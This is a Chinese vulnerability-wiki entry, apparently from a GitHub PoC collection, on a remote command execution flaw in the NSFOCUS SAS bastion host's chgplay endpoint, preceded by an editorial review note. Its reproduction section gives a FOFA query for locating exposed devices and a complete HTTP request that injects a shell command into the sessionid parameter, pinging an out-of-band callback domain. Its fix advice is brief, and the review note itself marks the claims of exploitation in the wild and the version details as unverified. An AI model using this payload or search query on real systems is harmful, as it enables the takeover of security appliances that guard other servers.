


## 核对与使用边界

- 分类更正：本文实际对象是 绿盟 SAS 堡垒机，原 CMS 内容目录不能代替产品归属；只修正字段和分类建议，路径、来源和技术方法继续保留。

- 测绘字段处置：原 fofa 字段为残缺表达式、错误平台语法或当前解析器不支持的形式，原值完整保留到 fofa_unverified，不把它当作已校验查询或受影响资产证据。正文检索方法保留；具体问题见下列原审阅项。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：chgplayroute; sid/authunknown;sessionid shellinterp; DNS/ICMPegress

- **结论使用边界（1）**：堡垒机安全设备误归CMS，应移安全设备。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **凭据与会话边界（2）**：请求有sid值但未解释是否需有效登录/回放会话，不可直接标未认证。抓包中的会话不能视为未认证访问证明；可识别的真实会话值按中段星号遮罩处理，默认演示值和攻击语法保留。需重新取得授权测试会话，不能复用文中值。

- **证据待核（3）**：fofa=body残缺；固化第三方OOB域应替换受控占位，外带成功须区分DNS解析与完整任意命令。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **事实待核（4）**：版本/修复/原厂公告缺，在野已知无源，图片无文本回显。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 绿盟 SAS堡垒机 chgplay 远程命令执行漏洞

# 漏洞描述

绿盟 SAS堡垒机 chgplay 远程命令执行漏洞，攻击者可利用该漏洞执行任意命令，导致服务器失陷。

# 影响版本

绿盟 SAS堡垒机

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="needUsbkey.php?username"

POC/EXP：****

```
GET /webconf/log/chgplay?cat=espc&sid=7473a85e535405e7bd991cb82b2f134c&status=charset&speed=10&sessionid=%3Bping%206imejt6m.eyes.sh%3B HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
sec-ch-ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9

```







# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
